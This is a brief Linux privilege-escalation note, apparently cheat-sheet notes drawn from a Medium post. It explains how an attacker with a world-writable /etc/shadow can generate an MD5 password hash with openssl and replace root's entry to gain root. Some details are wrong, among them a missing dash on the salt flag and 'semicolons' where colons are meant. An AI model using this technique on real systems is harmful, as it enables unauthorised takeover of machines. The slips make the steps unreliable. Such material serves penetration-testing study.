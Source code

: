 
https://int0x33.medium.com/day-65-change-linux-root-password-with-shadow-file-permission-issues-680698069156

Check /etc/shadow file permissions:

	ls -la /etc/shadow

You should see…

	**-rw-rw-rw-**

This means that the owner, group and all users have read and write permission for the file. Big win for us.

## Generate new root password & Su2Root


	openssl passwd <-hash_format> -salt <any_word_as_salt> <The_actual_password>


Here we used passwd to specify that we want to generate a Linux hashed password, `-1` means MD5 hash and salt is `abc` then the actual password

	openssl passwd -1 salt abc password123

Example password:

This must be replaced between semicolons after the name:
`$1$WXYViePQ$KBzlD0/sekZbcbzvo1AHI.`
